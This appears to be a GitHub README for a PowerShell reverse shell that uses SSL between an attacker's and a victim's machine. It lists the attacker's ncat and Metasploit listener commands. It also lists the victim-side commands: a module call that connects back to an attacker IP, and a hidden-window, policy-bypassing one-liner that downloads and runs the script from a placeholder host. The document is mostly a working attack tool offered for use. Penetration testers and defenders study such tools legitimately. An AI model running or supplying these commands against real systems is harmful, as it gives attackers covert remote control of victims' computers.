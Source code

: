 # PowerShell-SSL-ReverseShell
This is a reverse shell written in PowerShell that uses SSL communications between the attacker's machine and the victim's machine. Most of the code from [samratashok/nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [PowerShell-reverse-shell](https://github.com/martinsohn/PowerShell-reverse-shell)


## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ rlwrap ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShell -Reverse -IPAddress 192.168.254.226 -Port 4646

```

OR

```powershell

PS > powershell.exe -windowstyle hidden -ExecutionPolicy Unrestricted -nop -Command "IEX (New-Object Net.WebClient).DownloadString('https://<IP>/GetShellSSL.ps1')"

```

#### Demonstration
https://user-images.githubusercontent.com/74554439/197293572-e702d0aa-7390-41e5-ac0e-35b2e13a93d8.mp4
